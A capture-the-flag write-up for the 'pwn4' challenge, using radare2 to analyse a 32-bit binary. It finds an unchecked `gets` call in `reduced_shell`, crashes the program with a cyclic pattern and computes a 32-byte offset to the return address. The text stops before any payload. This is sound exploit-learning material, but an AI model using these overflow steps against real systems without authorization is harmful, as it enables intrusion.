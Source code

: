 # pwn4 write-up (? p)

remote server found at `nc pwn.ctf.tamu.edu 4324`

----

The binary use NX security mechanism: 

````python
[0x08048490]> i~arch,canary,nx,pic,relro
arch     x86
canary   false
nx       true
pic      false
relro    partial
```

Function sym.main() has a function call to sym.reduced_shell().

````python
[0x080485ef]> pdf
            ;-- eip:
┌ (fcn) sym.reduced_shell 404
│   sym.reduced_shell ();
│           ; var int INPUT @ ebp-0x1c
│           ; CALL XREF from 0x080487a8 (main + 37)
...
│           0x08048632      83c410         esp += 0x10
│           0x08048635      83ec0c         esp -= 0xc
│           0x08048638      8d45e4         eax = [INPUT]
│           0x0804863b      50             push eax                    ; char *s
│           0x0804863c      e8cffdffff     sym.imp.gets ()             ; char*gets(char *s)
````

Function sym.reduced_shell() contains a gets call, with local_1ch variable, renamed to INPUT.

Created a pattern using `ragg2 -P 300 -r > stdin` and reopen debugger.

````python
[0xf77b7030]> dc
I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input> Unkown Command

child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41414c41 code=1 ret=0
````

````python
[0x41414c41]> wopO 0x41414c41
32
````
